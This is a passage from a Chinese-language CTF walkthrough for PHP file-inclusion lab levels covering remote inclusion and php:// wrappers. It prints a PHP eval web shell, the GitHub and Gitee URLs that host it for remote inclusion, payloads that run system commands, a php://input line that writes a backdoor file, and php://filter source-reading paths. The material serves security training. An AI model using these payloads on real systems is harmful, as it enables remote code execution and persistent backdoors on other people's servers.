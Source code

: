 当然已经用上了http协议，本关也可以自行包含其他远端上的PHP代码：

> ```php
> <?php @eval($_POST['a']); ?>
> ```
>
> https://raw.githubusercontent.com/ProbiusOfficial/PHPinclude-labs/main/RFI
>
> https://gitee.com/Probius/PHPinclude-labs/raw/main/RFI

如果您有自己的vps也可以包含一个开放在web服务的文本文件：

> http://xxx.xxx.xxx.xxx/x.txt
>
> http://domain.xxx/x.txt

本题解法：**GET**:`?wrappers=127.0.0.1/backdoor.txt` **POST**:`ctf=system('cat /flag');`

### Level 5  http:// & https:// 协议_2

直接访问 challenge.txt ：

> <?php isset($_GET['Key'])&& 1==2 ? echo "<?= system('tac flag.???');?>" : die('Access Denied');?>

1==2 才能执行很明显不行（，本题使用远端包含：

> ```php
> <?php @eval($_POST['a']); ?>
> ```
>
> https://raw.githubusercontent.com/ProbiusOfficial/PHPinclude-labs/main/RFI
>
> https://gitee.com/Probius/PHPinclude-labs/raw/main/RFI

本题解法：**GET**:`?wrappers=raw.githubusercontent.com/ProbiusOfficial/PHPinclude-labs/main/RFI` **POST**:`a=system('cat /flag');`

### Level 6  php:// 协议

> php:// — 访问各个输入/输出流（I/O streams），PHP中最为复杂和强大的协议(https://www.php.net/manual/zh/wrappers.php.php)。
>
> 在CTF中经常使用的如下：
>
> php://input - 可以访问请求的原始数据的只读流，在POST请求中访问POST的data部分，在enctype="multipart/form-data" 的时候php://input 是无效的。常用于执行代码。 依赖：allow_url_include:On
>
> php://filter - (PHP_Version>=5.0.0)其参数会在该协议路径上进行传递，多个参数都可以在一个路径上传递，从而组成一个过滤链，常用于数据读取。

Demo 关卡，用于自由探索  php:// 协议，你可以使用下面任意一种方法通关（不唯一）：

```php
php://input + [<?= system('tac flag.???');?>]
php://input + [<?php fputs(fopen('backdoor.php','w'),'<?php @eval($_GET[ctf]); ?>'); ?>]

php://filter//resource=/flag
php://filter/read=convert.base64-encode/resource=flag.php
php://filter/convert.base64-encode/resource=flag.php
```

